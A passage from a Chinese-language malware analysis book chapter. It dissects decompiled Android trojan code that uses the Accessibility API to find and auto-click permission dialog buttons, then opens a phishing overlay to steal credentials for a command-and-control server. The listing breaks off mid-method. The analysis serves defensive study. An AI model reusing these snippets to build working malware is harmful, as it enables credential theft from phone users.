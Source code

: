 *列表 4-25：定位权限对话框按钮*

要根据按钮的文本标签按下按钮，恶意软件必须首先获取活动对话框中所有按钮的文本。如果这些按钮中的某一个与预期的文本匹配，它就可以执行点击操作，如列表 4-26 所示。

```
public static boolean pressButtonByText(
        AccessibilityNodeInfo accessibilityNodeInfo, String str) {
    if (accessibilityNodeInfo == null) {
        return false;
    }
    while (true) {
        boolean z = false;
        for (AccessibilityNodeInfo accessibilityNodeInfo2 : 
                accessibilityNodeInfo.findAccessibilityNodeInfosByText(str)) {
            if (accessibilityNodeInfo2.isClickable()) {
                if (z || clickButton(accessibilityNodeInfo2)) {
                    z = true;
                }
            }
        }
        return z;
    }
}
```

*列表 4-26：点击权限对话框按钮*

一个单独的、几乎相同的方法基于按钮的 ID 而非标签文本来识别要点击的按钮。唯一的区别是，它使用`findAccessibilityNodeInfosByViewId`方法而不是`findAccessibilityNodeInfosByText`。剩下的方法`clickButton`显示在列表 4-27 中；它使用可访问性 API `performAction`来执行点击。

```
public static boolean clickButton(
        AccessibilityNodeInfo accessibilityNodeInfo) {
    if (accessibilityNodeInfo == null) {
        return false;
    }
    return accessibilityNodeInfo.performAction(16);
}
```

*列表 4-27：通过可访问性 API 点击按钮*

如你所见，即使是像点击权限对话框中的“确定”按钮这样简单的工作流，也需要如此多的代码，难怪更复杂的系统操作和对话框处理会超过 1000 行。理解这些代码需要对 Android 内部机制和设备制造商所做的修改有所了解。

#### ***注入钓鱼窗口***

让我们讨论一下恶意软件是如何实现其最终目的：钓鱼。概念上，钓鱼凭证涉及显示一个钓鱼窗口，希望受害者上当受骗，然后将窃取的凭证发送到远程服务器供将来使用。该应用遵循了这一教科书般的行为。

我们已经发现了关于钓鱼过程的一些信息。从辅助功能 API 代码中，我们得知应用会在目标应用变为活跃时显示钓鱼窗口。在分析与命令控制服务器的通信时，我们了解到目标应用的配置来源以及钓鱼窗口的样式。我们目前唯一不明白的是应用如何展示钓鱼窗口并窃取凭证。

一个名为`OverlayInjectActivity`的类负责显示钓鱼对话框、收集用户凭证并将其发送到命令与控制服务器（见清单 4-28）。

```
@Override // android.app.Activity
protected void onStart() {
    super.onStart();
    this.context = this;
    OverlayInjectResource packageInjection = UtilGlobal.getPackageInjection(
        this, UtilGlobal.SettingsRead(this, Constants.appInjectTag));
    this.resource = packageInjection;
    this.hideStop = true;
    if (!this.stopActivity && packageInjection != null) {
        try {
            WebView webView = new WebView(this);
            this.wv = webView;
            webView.getSettings().setJavaScriptEnabled(true);
            this.wv.setScrollBarStyle(0);
            this.wv.setWebViewClient(new MyWebViewClient());
```